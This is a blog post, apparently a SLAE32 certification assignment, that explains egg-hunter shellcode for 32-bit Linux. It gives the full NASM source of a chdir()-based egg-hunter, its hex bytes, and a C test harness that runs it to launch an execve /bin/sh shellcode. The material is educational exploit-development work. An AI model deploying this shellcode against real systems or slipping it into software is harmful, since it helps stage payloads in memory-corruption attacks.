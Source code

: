 Title: SLAE32 - Assignment 3
Date: 2022-06-04T09:14:33.000Z

<h2 id="disclaimer">Disclaimer</h2><p>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:</p><p><a href="https://www.pentesteracademy.com/course?id=3">https://www.pentesteracademy.com/course?id=3</a></p><p>Student ID: PA-30398</p><h2 id="source-code">Source Code</h2><!--kg-card-begin: markdown--><p>The source code for this assignment can be found <a href="https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/3">here</a>.</p>
<p>Follows the list of files:</p>
<ul>
<li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/3/egg_hunter.nasm">egg_hunter.nasm</a>, the Assembly code of the egg-hunter</li>
<li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/3/test_egg_hunter.c">test_egg_hunter.c</a>, a C program written for testing the egg-hunter with the <code>execve</code> shellcode</li>
</ul>
<!--kg-card-end: markdown--><h2 id="theory">Theory</h2><!--kg-card-begin: markdown--><p>Now comes the question: what is an <em>Egg Hunter</em>?</p>
<p>According to a <a href="https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf">paper</a> from <code>Exploit-DB</code>:</p>
<blockquote>
<p>When the &quot;Egg hunter&quot; shellcode is executed, it searches for the unique &quot;tag&quot; that was prefixed with the large payload and starts the execution of the payload.<br>
[...]<br>
The Egg hunting technique is used when there are not enough available consecutive memory locations to insert the shellcode. Instead, a unique &quot;tag&quot; is prefixed with shellcode.</p>
</blockquote>
<!--kg-card-end: markdown--><h2 id="practice">Practice</h2><h3 id="implementation">Implementation</h3><p>Given I had zero experience with <code>egg hunters</code>, I tried to search for documents detailing how to create this type of shellcode.</p><p>I stumbled on this particular document - <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf">Safely Searching Process Virtual Address Space</a> - which shows some techniques you can employ for your own implementation.</p><p>Since the <em>SIGSEGV handler technique</em> is considered <em>infeasible</em>, mainly due to its size, I decided to try using the <em>system call technique</em>.</p><p>The system call I chose to use is <a href="https://man7.org/linux/man-pages/man2/chdir.2.html">chdir()</a>. Follows its prototype:</p><pre><code class="language-cpp">#include &lt;unistd.h&gt;

int chdir(const char *path);</code></pre><p>All it does is try to change the <em>Current Working Directory</em> (<code>CWD</code>) to the path pointed to the argument <code>path</code> (which is a pointer).</p><p>Since it accepts a pointer, we can use it to test memory addresses. Given the function already implements a <em>SIGSEGV handler</em>, it doesn't throw a SIGSEGV error, crashing the program.</p><p>Instead, it returns the error <code>EFAULT</code> (<code>0xfffffff2</code>), indicating that a bad address was passed to the function.</p><p>Follows my implementation in Assembly language:</p><pre><code class="language-nasm">; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear registers for later use
    xor ebx, ebx
    mul ebx

; This routine checks loops over memory addresses, checking if they are valid
; If the address is valid the shellcode continues to CheckBytes
CheckAddress:

    ; increment memory address by 1 (or use "add ebx, 4" if
    ;   you're sure about the offset)
    inc ebx

    ; call chdir(EBX)
    xor eax, eax
    mov al, 12
    int 0x80

    ; if the return value is 0xfffffff2 (EFAULT), go back to CheckAddress,
    ;   otherwise continue to CheckBytes
    cmp al, 0xf2
    jz CheckAddress

; This routine checks the 4 bytes stored at the address validated by
;   Checkaddress. The goal is to find the Egg Hunter Tag, in this case "rbct"
CheckBytes:

    ; load the 4 bytes from the memory address we're checking
    mov edx, DWORD[ebx]

    ; string "rbcs"
    mov esi, 0x72626373
    
    ; increment esi, thus: "rbct"
    inc esi

    ; check if the 4 bytes are equal to the flag, otherwise
    ;   check the next 4 bytes
    cmp edx, esi
    jnz CheckAddress

    ; if the two DWORDs are equal, then increment the address by 4, and
    ;   execute the shellcode
    add ebx, 4
    call ebx</code></pre><h2 id="testing">Testing</h2><p>I've tested this egg-hunter above with the <code>exit</code> shellcode. To do this, I've appended the following Assembly code at the end of the previous file:</p><pre><code class="language-nasm">section .data

    shellcode: db 0x74, 0x63, 0x62, 0x72, 0x31, 0xc0, 0x40, 0xcd, 0x80</code></pre><p>After running it, I've confirmed it works correctly:</p><pre><code class="language-bash"># assembling
nasm -f elf32 egg_hunter.nasm

# linking
#   also set the stack as executable (for the exit shellcode)
ld -N -o egg_hunter egg_hunter.o

./egg_hunter</code></pre><p>Instead of throwing a <code>SIGSEGV</code> error, it ran the exit shellcode successfully.</p><p>Next, I decided to try it with the <code>execve-stack</code> shellcode:</p><pre><code class="language-cpp">#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

// tag "rbct" prepended to the shellcode
unsigned char shellcode[] = "\x74\x63\x62\x72\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

// egg-hunter shellcode
unsigned char egghunter[] = "\x31\xdb\xf7\xe3\x43\x31\xc0\xb0\x0c\xcd\x80\x3c\xf2\x74\xf5\x8b\x13\xbe\x73\x63\x62\x72\x46\x39\xf2\x75\xe9\x83\xc3\x04\xff\xd3";

main() {
    printf("[+] Shellcode length: %d\n", strlen(shellcode));
    printf("[+] Egg-hunter length: %d\n", strlen(egghunter));

    // run the egg-hunter shellcode
    int (*ret)() = (int(*)())egghunter;
    ret();
}</code></pre><p>I saved the <code>execve</code> shellcode inside an array named <code>shellcode</code>, while storing the egg-hunter shellcode inside the array <code>egghunter</code>.</p><p>Inside the <code>main</code> function, the programs prints the length of the two shellcodes, and finally executes the egg-hunter shellcode. It does so by getting the pointer of the latter, and turning it into a function.</p><p>Follows a screenshot demonstrating the successful execution of the program:</p><figure class="kg-card kg-image-card kg-card-hascaption"><img src="__GHOST_URL__/content/images/2022/06/image-3.png" class="kg-image" alt="Egg-hunter found and executed the execve shellcode" loading="lazy" width="1251" height="203" srcset="__GHOST_URL__/content/images/size/w600/2022/06/image-3.png 600w, __GHOST_URL__/content/images/size/w1000/2022/06/image-3.png 1000w, __GHOST_URL__/content/images/2022/06/image-3.png 1251w" sizes="(min-width: 720px) 720px"><figcaption>Egg-hunter found and executed the <code>execve</code> shellcode</figcaption></figure>